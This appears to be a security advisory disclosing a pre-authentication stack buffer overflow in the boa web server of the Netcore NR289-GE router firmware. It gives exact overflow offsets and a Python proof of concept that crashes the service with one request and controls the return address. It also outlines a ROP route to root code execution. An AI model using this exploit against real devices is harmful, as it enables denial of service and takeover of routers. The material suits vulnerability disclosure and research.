



# Netcore NR289-GE AC Router — Pre-Authentication Stack Overflow in boa Basic Auth (PC controlled)

- Vendor: Netcore (磊科)
- Product: Netcore NR289-GE (SMB router / AC controller)
- Firmware Version: V1.4.5102 (2018.06.14, Linux 2.6.36, MIPS32r2 big-endian / RTL8198C+RTL8370)
- Vulnerability Type: Stack-based Buffer Overflow (CWE-120/CWE-787), **pre-authentication**

## Overview

The vendor-patched boa web server (`/bin/boa`) performs HTTP Basic authentication by decoding the `Authorization: Basic` header and splitting the result at the first `:`. The password-check function at `0x40c240` copies the user-name portion into two **64-byte stack buffers** with `strcpy`:





```
0x40c2b4:  strcpy(sp+200, username);   // 64-byte buffer; saved $ra at sp+292
0x40c2c0:  strcpy(sp+96,  username);   // second 64-byte buffer
```

The base64 decode path caps the input at roughly 129 decoded bytes, so a user-name of ~96+ bytes overwrites the saved `$ra` and all saved `$s0`-`$s6` registers. No authentication is required — the copy happens before any credential validation (the password itself is verified afterwards via IPC to `/bin/switch`; the overflow fires regardless of whether the credentials are valid).

Because `strcpy` stops at NUL, the overwrite value cannot contain `0x00` bytes; everything else is fully controlled. Empirically (qemu-user + gdb, firmware emulated):

```
username = cyclic_pattern(96 bytes)
->  Program received signal SIGSEGV
    0x31444130 in ?? ()            <- PC fully controlled
    PC = byteswap32(username[92:96])   (uClibc MIPS strcpy writes via lwl/lwr word ops)
```

So `username[92:96]` sets the return address (byte-swapped). uClibc (`/lib/libc.so.0`) gadget addresses in the high load range do not contain NUL bytes and can be used for a ROP chain; on the 2.6.36 kernel target, library load addresses are effectively predictable.

Note: boa tracks authentication failures (≥5 failures / 600 s locks the source IP to a forbid page), so brute-force offset discovery is rate-limited; the offsets above are exact, so a single request is enough. The overflow kills the boa process (pre-auth DoS even without a ROP chain); the watchdog in `/bin/switch` restarts it (`pidof boa` monitor).

## Proof of Concept

```python
import base64, requests

target = "http://<target>"
username = b"A" * 92 + b"\xef\xbe\xad\xde"   # -> PC = 0xdeadbeef
token = base64.b64encode(username + b":x").decode()
requests.get(target + "/index.htm",
             headers={"Authorization": "Basic " + token}, timeout=10)
# boa crashes: SIGSEGV with PC = 0xdeadbeef (byte-swapped value placed at username[92:96])
```

## Impact

Pre-authentication remote crash of the web management service (reliable, single packet) and demonstrated control-flow hijack (PC control). With a MIPS big-endian ROP chain into uClibc this is expected to lead to full remote code execution as root without any credentials.

## Reproduction Result

Dynamically verified against the firmware emulated with qemu-mips (big-endian) + chroot, boa running under qemu gdb stub with gdb-multiarch attached:



```
$ curl -H "Authorization: Basic <base64(96-byte pattern + ':x')>" http://<target>/index.htm
# gdb:
Program received signal SIGSEGV, Segmentation fault.
0x31444130 in ?? ()      # == byteswap32(pattern[92:96]) -> deterministic PC control
```
